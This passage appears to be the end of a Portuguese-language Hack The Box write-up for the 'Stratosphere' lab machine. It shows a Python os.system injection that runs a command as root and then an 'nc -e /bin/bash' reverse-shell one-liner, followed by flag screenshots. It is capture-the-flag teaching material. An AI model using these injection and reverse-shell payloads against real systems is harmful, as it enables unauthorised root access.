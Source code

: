 `__import__("os").system("touch /home/richard/exploit/stratosphere")`

E veirificamos que o arquivo foi criado, e como root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-stratosphere/S_b2.png)

Então pegamos um shell

`__import__("os").system("nc -e /bin/bash 127.0.0.1 9999")`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-stratosphere/S_b3.png)

Bom, já deu, exploramos bem tudo isso!

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-stratosphere/S_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-stratosphere/S_user.png)